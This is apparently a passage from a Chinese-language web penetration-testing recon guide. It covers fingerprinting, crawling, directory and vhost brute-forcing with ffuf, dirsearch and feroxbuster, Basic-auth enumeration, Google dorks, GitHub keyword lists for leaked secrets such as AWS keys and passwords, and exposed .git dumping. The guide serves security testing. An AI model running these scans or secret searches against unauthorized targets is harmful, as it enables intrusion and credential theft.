GET /cgi-bin/musicu.fcg?data=%7B%22HG%22%3A%7B%22module%22%3A%22Base.VideoFeedsUrlServer%22%2C%22method%22%3A%22GetVideoFeedsUrl%22%2C%22param%22%3A%7B%22fileid%22%3A%220_11_013ee9171515dd784f7988b354084cf1a294299e.zip%22%7D%7D%2C%22DB%22%3A%7B%22module%22%3A%22ScoreCenter.ScoreCenterEx%22%2C%22method%22%3A%22free_login%22%2C%22param%22%3A%7B%22test%22%3A0%2C%22redirect%22%3A%22https%3A%2F%2Factivity.m.duiba.com.cn%2Fsubpage%2Findex%3FskinId%3D1049%22%2C%22activeId%22%3A0%2C%22activeType%22%3A%22%22%7D%7D%2C%22A%22%3A%7B%22module%22%3A%22CDN.SrfCdnDispatchServer%22%2C%22method%22%3A%22GetCdnDispatch%22%2C%22param%22%3A%7B%22guid%22%3A%22MS%22%7D%7D%2C%22B%22%3A%7B%22module%22%3A%22VipActivity.AwardPay%22%2C%22method%22%3A%22GetPayRank%22%2C%22param%22%3A%7B%22actid%22%3A%22D8D2CAAC126AE8FB%22%2C%22pagesize%22%3A0%7D%7D%2C%22C%22%3A%7B%22module%22%3A%22login.BasicinfoServer%22%2C%22method%22%3A%22CallBasicInfo%22%2C%22param%22%3A%7B%7D%7D%7D&callback=jQuery3600_1684913070036&_=1684913070037 HTTP/2
Host: u.y.qq.com
Cookie: ......
Cache-Control: max-age=0
Sec-Ch-Ua: "Microsoft Edge";v="113", "Chromium";v="113", "Not-A.Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Dnt: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36 Edg/113.0.1774.50
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6


HTTP/2 200 OK
Date: Wed, 24 May 2023 08:09:35 GMT
Content-Type: text/plain; charset=utf-8;
Content-Length: 2863
Server: fasthttp
U-Location: 194118947_194121093_196435783_194121093_194686271
U-Traceid: 4a8334daed2eb856
Area: sz

jQuery3600_1684913070036({"code":0,"ts":1684915775688,"start_ts":1684915775599,"traceid":"4a8334daed2eb856","HG":{......},"DB":{......},"A":{......},"B":{......},"C":{"code":0,"data":{"userip":"223.104.41.51","name":"rasla","face":"https://thirdwx.qlogo.cn/mmopen/vi_32/123123123/132","encrypt_uin":"oK6kowEAoK4z7eEs7ecFoK4P7z**","subcode":0,"errortip":"","feedbackurl":"","last_login_time":1684915773,"fPersonality":0,"is_show_mlive_tab":0,"is_show_record_entry":0,"guide_user":0,"live_tab_at_bottom":1,"abtid_live_tab_at_bottom":"","needshow_podcast_tab":1,"isUseNewKey":0,"removeWtloginSDK":0,"musicKey":"","expiresIn":0,"refreshKey":"","feedbackURL":""}}})
```

内网蜜罐，目前还没经验，只能对比目标环境真实应用找不同。听说 Moan 内网蜜罐有些部署后 systeminfo 机器上就写着 Honeypot，蛮搞笑。

### 5.2 WAF 识别

使用 [wafw00f](https://github.com/enablesecurity/wafw00f) 识别，或者通过关键词看能不能触发 WAF 错误页面。

-   \-l，list url

```plaintext
cut -d ' ' -f 1 $data/valid_webapp.txt | xargs -t wafw00f
```

### 5.3 开发语言

一般应用在 HTTP 响应头的 COOKIE 字段中 Cookie Name 会有明显应用标识，大多都是以语言名字开头。

-   ASP.NET\_SessionId，ASP.NET
-   JSESSIONID，JSP
-   PHPSESSID，PHP

HTTP Response Server 字段透漏服务器用什么 WebServer 或是啥语言开发的应用。其实很多信息最后都能够串起来，前面敏感信息中的应用报错，也能发现目标是用什么语言或框架。

### 5.4 系统类型

操作系统，可以使用对文件的大小写更改来判断，Linux 区分大小写，Win 不区分。这个技巧在现代应用几乎不适用了，原因是现在都是 API 传数据，MVC 架构，不再是那种一个脚本处理一堆任务。

### 5.5 指纹识别（Fingerprinting Application）

所谓特征就是一个信息长时间不会变化，可以作为此内容的标识。Web 中可以时 favicon、URL、Error Page、File、Request Header 等内容。识别技术就是关键字匹配或者 Hash 匹配。

下面是一些常见的指纹识别工具：

-   云悉 - [http://www.yunsee.cn](http://www.yunsee.cn/)
-   潮汐 - [http://finger.tidesec.net](http://finger.tidesec.net/)
-   EHole - [https://github.com/EdgeSecurityTeam/EHole](https://github.com/EdgeSecurityTeam/EHole)
-   Dismap - [https://github.com/zhzyker/dismap](https://github.com/zhzyker/dismap)

由此可以快速识别应用是不是开源应用或者常见的 CMS，确定开源应用后，尝试打公开 Exploit。

EXPLOIT DATABASE - [https://www.exploit-db.com](https://www.exploit-db.com/)  
SearchSploit - [https://www.exploit-db.com/searchsploit](https://www.exploit-db.com/searchsploit)

1.favicon

查看站点图标文件 favicon.ico 知道它用什么框架，如 SpringBoot 是一片小绿叶，这是其一，其次可以通过 [FavFreak](https://github.com/devanshbatham/FavFreak) 计算 favicon 哈希，到网络空间搜索引擎上找到相同哈希的站点，扩大资产范围。

2.静态资源

这里以错误页面为例，透过 404 或其他默认错误页面可以通过错误信息得到堆栈、关键字，这样就可以确认框架、CMS 特征去找对应开源代码。

如 SpringBoot 错误页面会显示 Whitelabel Error Page。


### 5.6 应用结构地图

1.  挂上 BurpSuite，手工使用所有功能——越熟悉应用找到问题可能性越大。
2.  使用 [BurpSuite Crawl](https://portswigger.net/burp/documentation/scanner/crawling)、[katana](https://github.com/projectdiscovery/katana)、[gospider](https://github.com/jaeles-project/gospider)、[gau](https://github.com/lc/gau)、[rad](https://github.com/chaitin/rad) 爬虫工具去获取应用目录、文件、链接等页面上内容。

#### 爬虫

##### sitemap.xml

sitemap 用于 SEO 优化，告诉爬虫我站点有哪些内容，一般放在站点根目录下。

常见文件命名：

-   sitemap.xml
-   sitemap.txt
-   sitemap.html
-   sitemapindex.xml
-   sitemapindex.xml


##### 爬虫常用工具

###### GoSpider

[https://github.com/jaeles-project/gospider，爬参数、URL](https://github.com/jaeles-project/gospider%EF%BC%8C%E7%88%AC%E5%8F%82%E6%95%B0%E3%80%81URL)。

-   \-d，最多探索目录层级
-   \-s，site
-   \-S，文件列表
-   \-t，thread
-   \--sitemap，找 sitemap.xml 文件
-   \-p，proxy
-   \--cookie，使用 cookie
-   \--blacklist，不匹配文件后缀黑名单

```shell
gospider -s site -c 10 -t 5 -d 5 --sitemap -a -q -p "http://127.0.0.1:8080" --cookie "SESSION:pass" --blacklist jpg,jpeg,gif,css,tif,tiff,png,ttf,woff,woff2,ico,svg,txt | tee {}_gospider_data.txt
```

###### gau

[https://github.com/lc/gau](https://github.com/lc/gau)

```bash
gau -b jpg,jpeg,gif,css,tif,tiff,png,ttf,woff,woff2,ico,svg,txt -random-agent -p http://127.0.0.1:8080 -o gau_data.txt domain
```

###### hakrawler

[https://github.com/hakluke/hakrawler，爬所有内容](https://github.com/hakluke/hakrawler%EF%BC%8C%E7%88%AC%E6%89%80%E6%9C%89%E5%86%85%E5%AE%B9)

-   \-plain，明文输出不带颜色
-   \-stemap，在 sitemap.xml 中找内容，在用这个选项过程中程序会假死
-   \-usewayback，去 wayback 网站找历史文件快照
-   \-depth，目录层级

编译 `CGO_ENABLED=0 GOOS=linux GOARCH=amd64; go build main.go` 或 `go get github.com/hakluke/hakrawler`。

编译安装直接超时，需要设置代理 [GOPROXY 环境变量](https://shockerli.net/post/go-get-golang-org-x-solution/#goproxy-%E7%8E%AF%E5%A2%83%E5%8F%98%E9%87%8F)，使用 [https://goproxy.io](https://goproxy.io/) 代理即可解决

```plaintext
hakrawler -plain -insecure -usewayback -depth 6 -url
```

###### rad

[https://github.com/chaitin/rad](https://github.com/chaitin/rad)

##### 导入爬虫结果到 BurpSuite

将扫描结果导入 BurpSuite 最简单的方法就是，在工具使用 BurpSuite 代理，所有内容都会在 site map 中记录。

> ```plaintext
> cat file | parallel -j 200 curl -L -o /dev/null {} -x 127.0.0.1:8080 -sk
> 
> cat file | parallel -j 100 curl -x http://127.0.0.1:8080 -sk > /dev/null
> 
> cat urls.txt |  parallel -j50 -q curl -x http://127.0.0.1:8080 -w 'Status:%{http_code}\t Size:%{size_download}\t %{url_effective}\n' -o /dev/null -sk
> ```
> 
> [https://twitter.com/Alra3ees/status/1312267528434061312](https://twitter.com/Alra3ees/status/1312267528434061312)

Bash 脚本 1

> ```bash
> xargs-burp-subdoms(){
>     FILE_SUBDOMS="$1"
>     xargs -n1 -P 10 -i bash -c 'curl http://{} > /dev/null -x 127.0.0.1:8080 -skL --no-keepalive --connect-timeout 2' < $FILE_SUBDOMS
>     xargs -n1 -P 10 -i bash -c 'curl https://{} > /dev/null -x 127.0.0.1:8080 -skL --no-keepalive --connect-timeout 2' < $FILE_SUBDOMS
> }
> 
> xargs-burp-urls(){
>     xargs -n1 -P 10 -i bash -c 'curl {} > /dev/null -x 127.0.0.1:8080 -skL --no-keepalive --connect-timeout 2' < $1
> }
> ```
> 
> [https://mobile.twitter.com/shadow12\_/status/1329335998996680706](https://mobile.twitter.com/shadow12_/status/1329335998996680706)

Bash 脚本 2。

> ```shell
> #!/bin/bash
> #
> # Usage: $ ./burp.sh "<URL>"
> #        $ cat URLs.txt | ./burp.sh
> 
> SEND() {
>         curl -sk "$1" -x http://127.0.0.1:8080 &>/dev/null
> }
> 
> [ -z "$1" ] && while read URL; do SEND "$URL";  done || SEND "$1"
> ```
> 
> [https://github.com/bing0o/bash\_scripting/blob/master/send-to-burp.sh](https://github.com/bing0o/bash_scripting/blob/master/send-to-burp.sh)

Windows 下用 cmder 来操作。

```plaintext
wget http://x.xx.xx.xx/crawl.txt | grep zhuxian crawl.txt | xargs -n 1 -P 20 curl -skL -x http://127.0.0.1:8080 -o /dev/null -H "User-Agent: Googlebot/2.1 (+http://www.google.com/bot.html)"
```

BurpSuite 插件辅助导入：

-   [https://github.com/ZephrFish/BurpFeed，和](https://github.com/ZephrFish/BurpFeed%EF%BC%8C%E5%92%8C) curl 效果差不多，只不过增加线程。
    
-   [https://github.com/Static-Flow/DirectoryImporter，项目可以解决此问题，直接导入不用发请求访问](https://github.com/Static-Flow/DirectoryImporter%EF%BC%8C%E9%A1%B9%E7%9B%AE%E5%8F%AF%E4%BB%A5%E8%A7%A3%E5%86%B3%E6%AD%A4%E9%97%AE%E9%A2%98%EF%BC%8C%E7%9B%B4%E6%8E%A5%E5%AF%BC%E5%85%A5%E4%B8%8D%E7%94%A8%E5%8F%91%E8%AF%B7%E6%B1%82%E8%AE%BF%E9%97%AE)。
    

#### JavaScript 文件

在以往应用中，都是点击页面上 A 标签发送请求处理数据。在如今前端开发中基本上都是前端框架开发，使用接口进行数据交互。有可能在实际中部分功能前端 UI 还未上线，就将接口写到 JS、A Tag 中，这些功能可能处于开发或测试状态，有利于测试人员获取更多信息。

有哪些方式找？

1.  有指向其他子域名链接，BurpSuite 中 Engagement tools -> Find References 工具查找。
2.  应用内可能有 JS，可以用 BurpSuite 中 Engagement tools -> Find scripts 工具查找。
3.  有些 JS 可能没有在页面引用，尝试爆破存放 JS 目录 `.js` 文件。
4.  可以全局搜索 `path:` 来查 Vue 框架路由，有可能存在页面上不展示的隐藏功能，访问路由就能顺着找 API。
5.  有些可能使用了 Webpack 打包静态资源，试试在 `xxx.js` 后添加 `.map` 找到 SourceMap 源码，或是在 JS 最后一行有注释信息 `//# sourceMappingURL=xx.js.map`

得到 JS 后需要做以下几件事

1.  如果有混淆的话，反混淆。  
    [https://github.com/beautify-web/js-beautify](https://github.com/beautify-web/js-beautify)  
    [https://lelinhtinh.github.io/de4js/](https://lelinhtinh.github.io/de4js/)
2.  URL、相对路径提取 [https://github.com/jobertabma/relative-url-extractor](https://github.com/jobertabma/relative-url-extractor)
3.  搜索敏感信息 [https://github.com/auth0/repo-supervisor#command-line-mode](https://github.com/auth0/repo-supervisor#command-line-mode)

现在更常见一种方法是把多个需要使用的静态资源打包为一个或多个文件，这样可以压缩代码体积，避免请求多个文件缓慢。

我们拿到手这种文件后根本没法看。

```javascript
(function(e){function n(n){for(var u,c,s=n[0],i=n[1],o=n[2],d=0,h=[];d<s.length;d++)c=s[d],Object.prototype.hasOwnProperty.c
//# sourceMappingURL=app.81748534.js.map
```

好过在文件中有个 SourceMappingURL，它是指向这个文件源头，其记录的原始文件路径、代码种种信息，开发一般用于 DeBug，测试人员则可还原代码获取敏感信息。

Chrome 开发者工具默认开启解析 SourceMap 功能，在小齿轮里开启 Enable JavaScript source maps 就能将 SourceMap 内 JS 映射出来。



如果有没映射文件显示，在开启解析功能的情况下，需要复制 sourceMap 名称手动添加，添加后就能在下面资源中显示出。


这些文件可以右键保存到本地进行审计，但不能批量保存比较麻烦。

通过 [sourcemapper](https://github.com/denandz/sourcemapper) 可把 SourceMap JS 还原到本地。

安装 reverse-sourcemap `npm install --global reverse-sourcemap` 使用 `reverse-sourcemap --output-dir ./dir xx.js.map` 替代上面工具也可。

#### 目录扫描

为什么进行目录扫描？目录扫描意义在于发现备份文件、隐藏目录、隐藏页面、API 等内容，以此扩大攻击面。

常用工具有 dirsearch、御剑、[gobuster](https://github.com/OJ/gobuster)、[feroxbuster](https://github.com/six2dez/reconftw)、[ffuf](https://github.com/ffuf/ffuf)。个人使用 gobuster、feroxbuster 扫目录多一些，go、rust 写的工具无需像 Python 一样安装依赖，直接打包好一键使用。

目录工具的原理是通过取字典中的文本作为数据取拼接到 URL 后面发送 HTTP 请求，根据请求结果来判断是否存在字典中的内容，什么意思？

假设 1.txt 是字典

```plaintext
/test.php
/manager
```

要扫描的 URL 是 [https://example.com](https://example.com/)。

工具整个运行逻辑是循环把 1.txt 中每一行文本取出来然后拼接到 URL 后面。最终得到以下 URL。

```plaintext
https://example.com/test.php
https://example.com/manager
```

通过这些 URL 选定一个 HTTP 方法发送请求，常见的有 GET 和 HEAD，一般使用 HEAD 好些，因为不需要获取响应内容，减少时间开销。通过 HTTP Response Status Code 来判定 WebServer 到底是不是存在字典中的内容。

工具原理我们完全掌握，完全能够自己写一款采用多线程发送请求的扫描工具。但工具的好不好用的关键点不在这里，掣肘源于字典，如果服务器存在 1.php 而字典中没有包含，实际上工具也扫描不到此文件，此时来看一个好的字典是不是很重要？

扫描时还有些细节需要注意，你要根据同站点选择不同字典，如目标是 php 就选包含 php 文件的字典扫，目标是 API 就找 API 路由字典。扫目录来讲，需针对每个已发现的目录进行递归扫描（包含目录、脚本和 API 内容），在测试过程中有时候资产就会藏得比较深。如果有时发现扫不到东西，可以讲子域名作为关键词扫描，如 one-app.test.example.com 可以扫描

```plaintext
one-app.test.example.com/one-app
one-app.test.example.com/test
one-app.test.example.com/one-app/test
```

##### 目录扫描常用工具

最基本的功能就是给出一个目标 URL 和 Dict 开始扫描。

###### dirsearch

```shell
# 1.循环Web存活服务
# 2.扫它
dir_brute_force { 
    cd /tools/dirsearch
    python3 dirsearch.py -r -R 6 --random-agents -e conf,config,bak,backup,swp,old,db,sql,asp,aspx,aspx~,asp~,py,rb,rb~,php,bak,bkp,cache,cgi,conf,csv,html,inc,jar,js,json,jsp,jsp~,lock,log,rar,sql,sql.tar.gz,sql~,swp,swp~,tmp,tar,tar.bz2,tar.gz,txt,wadl,zip -l "$target_url.txt" -w "$opt/dict.txt"
}
```

###### ffuf

ffuf 可以 fuzz 啥？params、headers、POST data HTTP 中任意位置你都可以 fuzz，只需要给出要 FUZZ 的位置和字典就成。

-   \-fc 400,404，不显示 400,404 这些响应码的 response
-   \-mc all，包含哪些响应码，默认是 200,204,301,302,307,401,403,405，写 all 就是所有响应码的 response 都会被输出。
-   \-ac，自动校准自动帮你修复一些输入错误啥的，启用会比较好减少错误，*官方文档没有仔细介绍，要找下这个功能文章*
-   \-maxtime 120，到达 120 秒就停止运行 ffuf
-   \-timeout 3，指定 5 秒后超时（默认 10 秒）
-   \-H "Name: Value"，设置 Headers
-   \-D -e php,jsp，跟 dirsearch 类似，可以 fuzz 后缀
-   \-mr "正则表达式匹配"，使用正则匹配响应

```plaintext
ffuf -w targets-alive.txt:URL -w wordlist.txt -u URL/FUZZ -mc 200,403 -o targets-report.html -of html
```

FUZZ 一个点

最终 FUZZ 关键字会被替换为 wordlist.txt 内容，可以用在任何位置，只要发挥你的想象力。

```plaintext
ffuf -u http://baidu.com/test/FUZZ -w wordlist.txt -H "Name: Mediapartmers-Google" -c -fc 501,502,5031 -D -e php,jsp,asp,aspx,zip,rar,tar,bkp,bak,sql,sql.gz,html,js,csv,log,cgi,swp -mc 200,403 -ac -od data -o targets-report.html -of html
```

FUZZ 多个点

fuzz 多个地方，要替换的参数大写，在字典后面使用冒号告诉 ffuf 这个字典用在那个位置。 比如 domain.txt 会替换到 DOMAIN 中。

```plaintext
ffuf -u http://DOMAIN.com/PATH -w domain.txt:DOMAIN -w path.txt:PATH
```

使用 bash 别名

Usage: `ffuf_recursive https://site.com/js js.txt -fc=404`

unfurl 用于分割 url

```shell
ffuf_recursive(){
    makedir -p recursive
    dom=$(echo $1 | unfurl format %s%d)
    ffuf -c -v -u $1/FUZZ -w $2 \
    -H "User-Agent: xxx" \
    -recursion -recursion-depth 5 \
    -mc all -ac \
    -o recursive/recursive_$dom.csv -of csv $3 
}
```

401 Basic 认证枚举

[https://github.com/0xspade/Automated-Scanner/blob/master/scanner.sh#L443](https://github.com/0xspade/Automated-Scanner/blob/master/scanner.sh#L443)

```plaintext
ffuf -c -w ~/tools/basic_auth.txt -u $i -k -r -H "Authorization: Basic FUZZ" -mc all -fc 500-599,401 -of html -o ~/recon/$1/401/$filename-basic-auth.html 
```

401 在 header 头添加 JWT 测试

参考链接

-   [https://github.com/jthack/ffuf\_presentation](https://github.com/jthack/ffuf_presentation)

遇到 403 尝试通过各种 HTTP 头绕过

参考链接

-   [https://github.com/m4dm0e/dirdar](https://github.com/m4dm0e/dirdar)  
    [https://tamimhasan404.medium.com/ffuf-tips-and-tricks-90fbe12e7c79](https://tamimhasan404.medium.com/ffuf-tips-and-tricks-90fbe12e7c79)

###### feroxbuster

目测比 dirsearch 好用，更多人性化功能，好看的界面。

-   \-u，扫描目标 URL
-   \-x，指定扫描文件后缀，如 -x pdf js，会在所有字段后面加上这些扩展名
-   \-k，忽略 SSL 证书
-   \--silent，啥都没有只显示扫描结果 URL，常常通过管道交给其他工具进行操作
-   \--quiet，显示扫描结果之上加状态码内容长度字段，正在扫描的 URL 也会显示。
-   \--parallel，并行扫描 10 个目标，每个目标是单独的子进程。通常配合 --stdin 使用。--stdin 通过标准输入——管道传入扫描目标。相当于其他工具 -l 指定文件扫描。
-   \-e，顺道从响应中提取路径进行请求
-   \-L 2，限制每次扫描目录数量，相当于线程。
-   \--rate-limit，限制扫描请求并发，相当于每个线程每次请求数量
-   \-C，过滤掉指定状态码不显示，例如 -C 301 -C 500 -C 400。
-   \-P [http://l127.0.0.1:8080](http://l127.0.0.1:8080) -R 200 302，-P 设置将请求发送给 Burp，-R 筛选指定状态码发送。
-   \--resume-from，扫描过程中 Ctrl+C 终端扫描会保存扫描状态文件，通过此文件恢复扫描。
-   \--auto-tune，错误过多自动波动调整扫描速度。
-   \-r，跟随重定向
-   \-d，扫描路径深度
-   \-a，设置 UserAgent
-   \-w，指定字典
-   \-o，输出扫描结果 加个 --json 可以指定 json 格式

```plaintext
cat target.txt | ./feroxbuster --stdin -k --parallel 10 -d 6 --extract-links -a "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36" -w dict.txt -o dir_scan_result.txt

.\feroxbuster.exe -u https://www.csgo.com.cn -k -r --auto-tune -d 6 -a "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36" -w D:\gbb\dict\目录与文件\asp+aspx+php+jsp+dir+file.txt
```

使用默认 50 线程会报错；， -t 降到 30 没出现。

```plaintext
me-workertokio-runtime-workertokio-runtime-workertokio-runtime-worker' panicked at 'tokio-runtime-worker' panicked at '' panicked at '' panicked at '' panicked at 'called `Option::unwrap()` on a `None` value' panicked at '' panicked at 'called `Option::unwrap()` on a `None` value' panicked at 'called `Option::unwrap()` on a `None` value' panicked at 'called `Option::unwrap()` on a `None` valuecalled `Option::unwrap()` on a `None` value', called `Option::unwrap()` on a `None` valuecalled `Option::unwrap()` on a `None` value', called `Option::unwrap()` on a `None` value', ', ', ', src\scanner\requester.rs', src\scanner\requester.rssrc\scanner\requester.rssrc\scanner\requester.rssrc\scanner\requester.rscalled `Option::unwrap()` on a `None` value:src\scanner\requester.rs:src\scanner\requester.rs', ::117:117', ::117117src\scanner\requester.rs:117:src\scanner\requester.rs117117:::14:117:::141414
14:1411714


note: run with `RUST_BACKTRACE=1` environment variable to display a backtrace

14
:
```

#### API 管理文档

像是 Swagger 等等。

拿到 API 后直接目录扫描，一般能扫描管理文档。之后就直接工具批量对这些接口进行认证功能检查，搞不好认证缺失呢？不过扫的时候需要考虑有没有 Upadte、Delete、Create 等操作，避免对目标数据进行改动。

### Virtual Host（VHost）

国内也有人叫 HOST 碰撞，HOST 绑定。目前看到乌云在 2015.01.30 就有人这样用。

原理涉及 WebServer 虚拟主机配置。一个 WebServer 配置文件中通过指定 ServerName 域名和 Root 站点根路径可以配置多个站点，当一个请求过来时服务器检查请求头 Host 字段，去跟配置的站点 ServerName 进行匹配来决定返回哪个路径下的资源。直接通过 IP 访问是无法获取到资源，通常是 WebServer 默认页，只能通过 ServerName 浏览。

下面介绍实战中常见两种场景。

1.域名解析后是内网地址。

肯定无法访问成功，此时思路是将对方服务器所有真实 IP 与此域名绑定再请求（相当于绑定本地 hosts 访问），当 WebServer 收到请求，一看 Host 域名能够匹配上就返回资源。

2.有服务器真实 IP，但找不到内网域名。

这种情况是 WebServer 配置了很多虚拟主机，它们都对应有 ServerName，只有某个虚拟主机原本供内网使用，但 IP 确配置的公网地址，域名为内网域名。

既然知道服务器 IP，实际请求时我只需要把请求头 Host 给替换成它配置文件中的 ServerName 不就能请求到站点吗？原理就是 WebServer 检查 HOST 与匹配虚拟主机中的 ServerName 匹配就返回资源。

这种情况就要猜内网域名是什么，由于前面 Recon 阶段搜集过一堆域名，把不存在 A 记录的域名摘出来爆破，或者直接爆破子域，这就需要字典够强大，能不能出来全凭运气。

```plaintext
ffuf -w <vhosts-dict-path> -u https://example.com -H "Host: FUZZ"
curl -H "Host: Fuzz" -A "Googlebot/2.1 (+http://www.google.com/bot.html)" https://example.com
```

实际爆中最好 TLS 也试一遍，避免有些虚拟主机使用 TLS 没访问到。使用 curl 跑防止证书验证失败最好忽略证书验证 -k/--insecure，ffuf 则没此问题。

```plaintext
curl -H "Host: Fuzz" -A "Googlebot/2.1 (+http://www.google.com/bot.html)" https://example.com --insecure
```

### 敏感信息

#### Wayback Machine

web.archive.org 可以记录一个域名过往的历史快照，可以从中挖到未下线的老旧资产和敏感信息。

#### Google Dorking

以下大部分敏感信息语法都聚合在 [Bug Bounty Helper](https://dorks.faisalahmed.me/)、[Google Hacking Database](https://www.exploit-db.com/google-hacking-database)，开箱即用。

这些语法可以组合使用，语法之间空格间隔：

> `inurl`: URL 存在关键字的网页，例如 `inurl:/admin`
> 
> `filetype`/`ext`: 指定文件类型，例如 `"Wireshark Manual" filetype:pdf`
> 
> `intitle`: 标题中含有关键字的网页，例如`intitle:"雨滴科技管理平台"`
> 
> `intext`: 正文中含有关键字的网页，例如 `intext:"q币 官方 充值"`
> 
> `site`: 搜索与这个域名相关的 URL，例如 `site:baidu.com` 这样会查找关于 baidu.com 所有的页面，site 还可以指定查询哪个国家的顶级域，例如 `"huaweidevice" site:jp`，这就可以查询日本关于华为的相关页面。
> 
> "key word"：用双引号括起来代表搜索结果中必须要包含此内容。

查找办公文档文件和应用：

-   site:\*.domain.com filetype:"xls | xlsx | doc | docx | ppt | pptx | pdf | csv | rar | zip | tar | 7z"
-   site:\*.domain.com ext:sql | xls| xml | json | csv | log
-   site:xxx.com 登录|登陆|密码|后台管理|系统|login|admin|backend|内部|文档|知识库
-   site:xxx.com intext:@xxx.com|#xxx.com
-   site: xxx.com intitle: 账号|密码|工号|学号|身份证|Setup

查找些 WebServer 目录浏览：

-   intitle:"Index of /"

查找 \*.domain.com 子域名，`-` 代表排除某个字符不显示：

-   site:.domain.com -www -index

不光只有 Google 有搜索语法，不同搜索引擎语法可能不同，在不确定语法时可查找具体帮助页面：

-   Google
    
    -   [优化网页搜索结果](https://support.google.com/websearch/answer/2466433)
    -   [在 Google 上进行高级搜索](https://support.google.com/websearch/answer/35890)
-   DuckDuckGo
    
    -   [DuckDuckGo 搜索语法|DuckDuckGo 帮助页面](https://help.duckduckgo.com/duckduckgo-help-pages/results/syntax/)
-   Bing
    
    -   [高级搜索选项 - Microsoft 支持](https://support.microsoft.com/zh-cn/topic/%E9%AB%98%E7%BA%A7%E6%90%9C%E7%B4%A2%E9%80%89%E9%A1%B9-b92e25f1-0085-4271-bdf9-14aaea720930)

搜索引擎只能检测收录的网页，将 robots.txt 放在应用根目录可以禁止搜索引擎收录敏感目录，在实际收集过程中可以手动访问。

#### 网盘

很多人分享敏感文件就公开分享，没有加上密码或有效期，通过下面一些网盘资源汇聚站点，可以查泄露文件用：

-   盘多多 - [http://www.panduoduo.net](http://www.panduoduo.net/)
-   盘搜搜 - [http://www.pansoso.com](http://www.pansoso.com/)
-   盘搜 - [http://www.pansou.com](http://www.pansou.com/)
-   凌云风搜索 - [https://www.lingfengyun.com](https://www.lingfengyun.com/)

#### Github

通常搜一些 account、key 关键词多些。

Github搜索关键词:

```plaintext
"api.target.com" authorization
"target.com" "authorization bearer"
"target.com" access token
"target.com" access_key
"target.com" access_token
"target.com" accountKey
"target.com" api_key
"target.com" apikey
"target.com" APP_SECRET
"target.com" auth_key
"target.com" aws_key
"target.com" AWS_Secret
"target.com" aws_secret_access_key
"target.com" client_secret
"target.com" config
"target.com" consumer_secret
"target.com" consumerkey
"target.com" defaultEndpointsProtocol
"target.com" FTP
"target.com" github_token
"target.com" jdbc
"target.com" jira_password
"target.com" JWK/JWT
"target.com" login 
"target.com" password 
"target.com" rexis
"target.com" root password
"target.com" root_password
"target.com" secret_key
"target.com" SECURITY-SIGNATURE
"target.com" send_keys
"target.com" SSO_LOGIN
"target.com" user auth
"target.com" X-API
"target.com" X-Paypal
```

对于关键词要有想象力。比如也可以搜索子域。

```plaintext
"target.com" "dev"
"dev.target.com"
```

Github 搜索语法，逗号后面为解释。

> filename:FILENAME，文件名。  
> language:LANGUAGE，指定编程语言搜索代码。  
> extension:EXTENSION，指定文件扩展名。  
> in:file,path，默认搜索呢只会在文件中找内容，加了 in 就会限定在 path 和 file 中。这个 path 就是项目中文件夹的路径。

在搜索时[官方文档](https://docs.github.com/cn/free-pro-team@latest/github/searching-for-information-on-github/searching-code)明确指出搜索限制。

> -   必须登录才能跨所有公共仓库搜索代码。
> -   只有小于 384 KB 的文件可搜索。
> -   只有少于 500,000 个文件的仓库可搜索。
> -   您无法使用以下通配符作为搜索查询的一部分：. , : ; / \\ \` ' " = \* ! ? # $ & + ^ | ~ < > ( ) { } \[ \] 搜索只会忽略这些符号。
> -   除了 `filename` 搜索以外，搜索源代码时必须始终包括至少一个搜索词。例如，搜索 `language:javascript` 无效，而搜索 `amazing language:javascript` 有效。

Github Issues 中也许会有更多错误信息，这个点也不要放过。

在使用工具时也要手动，避免工具遗漏信息。

**GitMiner**

[GitMiner](https://github.com/UnkL4b/GitMiner) 这款工具是直接在用 GitHub 语法搜索，使用前先安装依赖。

```plaintext
gbb@raingray ~/Desktop/GitMiner-master
λ pip --version
pip 20.2.2 from d:\python3.8.5\lib\site-packages\pip (python 3.8)
gbb@raingray ~/Desktop/GitMiner-master
λ pip install -r requirements.txt
```

使用必须填所有选项，-q 是搜索语法，-m 指定搜索模块，-c 是 cookie 信息，还有个选项 -r 可以用匹配内容。在测试过程中搜索无法显示结果......

```plaintext
python gitminer-v2.0.py -q  'password edb08.com.cn' -m passwords  -c cookie.txt -o result.txt
```

**GitDorker**

安装。

```plaintext
git clone https://github.com/obheda12/GitDorker
cd GitDorker && pip3 install -r requirements.txt
```

写入 Github 账户 Token。

```plaintext
echo -e key1\\nkey2 >> tf/TOKENSFILE
```

使用。

```plaintext
python3 GitDorker/GitDorker.py -tf GitDorker/tf/TOKENSFILE -d GitDorker/Dorks/alldorksv3 -q $1 -p -o gitdorker_github_dorks
```

其中 -o 会自动生成一个 .csv 文件，-q 是根据目标来自定义关键词。

Github 提交或删除是被记录下来的，可以查看删除内容，也要关注提交 Commit 的 Author，可能存在内部信息。历史记录搜索工具：Truffle Hog。

```plaintext
git clone repo # 克隆仓库
git log # 查看仓库 log
tig # 查看仓库信息，通过 l 能够查看日志，j 向下一行，k 向上一行，PageUp/Down 上下翻页，Enter 进入，q 退出。
```

分支也要看，别光顾着 master 分支，把其他内容漏掉。

git-all-secrets 集成 Truffle Hog，它主要是针对指定存储库进行扫描，不像是 gitminer 针对 code 搜索。

除 Github 外，在 [https://gist.github.com/](https://gist.github.com/) 也可能存在一些代码共享。

#### 版本控制

**Git**

.git [GitHack](https://github.com/lijiejie/GitHack)

> -   解析.git/index文件，找到工程中所有的： ( 文件名，文件sha1 )
> -   .git/objects/ 文件夹下下载对应的文件
> -   zlib解压文件，按原始的目录结构写入源代码

下载 ./git。

```plaintext
wget -r https://xxx.net/.git
```

